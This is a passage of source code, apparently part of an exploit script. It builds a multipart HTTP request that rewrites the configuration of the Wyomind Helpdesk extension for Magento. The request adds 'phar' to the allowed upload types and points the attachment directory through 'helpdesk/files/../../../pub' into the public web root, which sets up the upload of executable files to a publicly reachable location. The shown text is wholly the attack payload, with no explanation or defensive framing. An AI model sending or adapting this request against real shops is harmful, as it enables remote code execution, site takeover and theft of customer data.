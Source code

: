        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"groups[general][fields][closed_status][value]\"\r\n" +
        "\r\n" +
        "3\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"groups[general][fields][ticket_prefix][value]\"\r\n" +
        "\r\n" +
        "10000\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"config_state[wyomind_helpdesk_frontend]\"\r\n" +
        "\r\n" +
        "1\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"groups[frontend][fields][menu_label][value]\"\r\n" +
        "\r\n" +
        "Support - My Tickets\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"groups[frontend][fields][top_link_enabled][value]\"\r\n" +
        "\r\n" +
        "1\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"groups[frontend][fields][attachments][value]\"\r\n" +
        "\r\n" +
        "1\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"config_state[wyomind_helpdesk_frontend_attachments_settings]\"\r\n" +
        "\r\n" +
        "1\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"groups[frontend][groups][attachments_settings][fields][attachments_extension][value]\"\r\n" +
        "\r\n" +
        "jpeg,gif,png,pdf,phar\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"groups[frontend][groups][attachments_settings][fields][attachments_directory_path][value]\"\r\n" +
        "\r\n" +
        "helpdesk/files/../../../pub\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"groups[frontend][groups][attachments_settings][fields][attachments_upload_max_filesize][value]\"\r\n" +
        "\r\n" +
        "2M\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"groups[frontend][groups][attachments_settings][fields][attachments_post_max_size][value]\"\r\n" +
        "\r\n" +
        "4M\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"config_state[wyomind_helpdesk_emails]\"\r\n" +
        "\r\n" +
        "1\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"config_state[wyomind_helpdesk_emails_customer_settings]\"\r\n" +
        "\r\n" +
        "0\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"groups[emails][groups][customer_settings][fields][confirmation_enabled][value]\"\r\n" +
        "\r\n" +
        "0\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
